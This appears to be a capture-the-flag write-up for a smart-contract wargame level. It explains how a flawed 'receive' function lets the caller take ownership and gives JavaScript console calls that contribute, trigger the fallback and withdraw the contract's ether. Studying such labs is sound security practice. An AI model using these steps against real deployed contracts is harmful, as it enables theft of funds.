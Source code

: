 ## 1) Catch:
The poorly implemented fallback function "receive" changes an important logic of the contract
assigning the ownership to the last person who triggered this fallback by doing one this actions:
    a) Calling an non existing function
    b) Calling an existing function without passing required data
    c) Sending ether to the contract without any data

## 2) Solutions.
    a) Wasting too much time and effort depositing 1001 times 0.001 ether each time so the ownership changes.
    b) Triggering the fallback function.

    Approach b) Sending 1wei to the contract will trigger the fallback function.

        await contract.contribute({value: 1}) // Because of the logic of the fallback, the user must contribute first.

        // Here is where the fallback is triggered
        await contract.sendTransaction({
        from: player,
        value: 1
        })

        // Because you are now the owner, this txn will go through.
        await contract.withdraw()